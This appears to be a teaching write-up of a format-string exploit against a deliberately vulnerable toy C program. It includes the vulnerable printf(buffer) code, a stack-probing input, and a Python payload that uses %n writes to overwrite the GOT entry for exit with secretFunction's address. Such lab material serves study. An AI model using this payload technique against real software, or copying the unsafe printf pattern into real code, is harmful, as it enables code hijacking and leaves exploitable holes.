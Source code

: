 ## Vulnerable code

```c
#include <stdlib.h>  
#include <unistd.h>  
#include <stdio.h>  
#include <string.h>  
  
void secretFunction(){  
	printf("Secret Key\n");  
}  
  
void vulnerableFunction(){  
	char buffer[64];  
	fgets(buffer,sizeof(buffer), stdin);  
	printf(buffer);  
	exit(1);  
}  
  
int main(int argc, char *argv[]){  
	vulnerableFunction();  
	return EXIT_SUCCESS;  
}
```
 
## Proof of vulnerability

Input any format specifier such as `%x`.

![](Images/parameters.png)  
*https://owasp.org/www-community/attacks/Format_string_attack*

## Find input's depth in stack

```
AAAABBBBCCCC%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
```

Then search for `41 41 41 41 42 42 42 42 43 43 43 43` in output (corresponding to hex value of `AAAABBBBCCCC`) .

> In our case we have a **4** input depth in stack.

## Find `secretFunction`'s address

![](Images/secret_function_address.png)

> `SECRET FUN ADDR = 0x08090116`.
## Find exit function in GOT 

![](Images/got.png)

> `GOT EXIT ADDR = 0x080922e8`. 
## The attack

- We will replace `exit` function address in GOT by `secretFunction`'s.
- We will proceed by writing two burst of 2 bytes.

### Creating the payload 

`0x08090116` = 

| Shift | Hex value | Numeric value |
| - | - | - |
| 0 | `0x0116`| 278 |
| 2 | `0x0809` | 2057 |


```python
print("\xe8\x22\x09\x08" 
	# First address to write in. GOT EXIT ADDR, endian swppped.
	# Will be written in DEPTH'th item in stack.
	+ "\xea\x22\x09\x08"
	# Second address to write in. GOT EXIT ADDR + shift, endian swppped.
	# Will be written in (DEPTH + 1)'th item in stack.
	+ "CCCC" 
	+ "%4$266x" # 278 - 3 * 4
	+ "%4$n" # Write to the adress pointed in the 4th item in stack.
	+ "%5$1779x" # 2057 - 266 - 3 * 4
	+ "%5$n" # Write to the adress pointed in the the 5th item in stack.
)
```

```bash
./FormatString < payload.txt
```
